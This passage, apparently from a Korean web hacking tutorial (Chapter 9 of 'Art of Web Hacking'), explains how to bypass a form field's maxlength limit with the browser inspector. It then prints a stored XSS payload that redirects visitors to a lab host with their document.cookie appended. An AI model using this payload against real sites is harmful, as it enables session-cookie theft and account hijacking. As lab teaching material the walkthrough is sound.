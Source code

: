 <img src="/Art of Web Hacking/Chapter9/017.png" width="510" height="40"> <br>
</div>스샷. 16-17<br><br>
- 더 이상 입력이 안되 진행이 안된다면 Inspect Element 클릭하면 소스코드에서 maxlength가 50으로 설정되어 있으니까 원하는 값으로 바꿔 줍니다.<br>
<div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#010101">&lt;</span><span style="color:#ff3399">script</span><span style="color:#010101">&gt;</span><span style="color:#0099cc">document</span>.<span style="color:#0099cc">location</span><span style="color:#ff3399">=</span>’http:<span style="color:#999999">//192.168.37.130/cookie?’+document.cookie&lt;/script&gt;</span></div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div>
<br>

<div align="center" >
<img src="/Art of Web Hacking/Chapter9/018.png" width="510" height="330"> <br>
</div><br>
<div align="center" >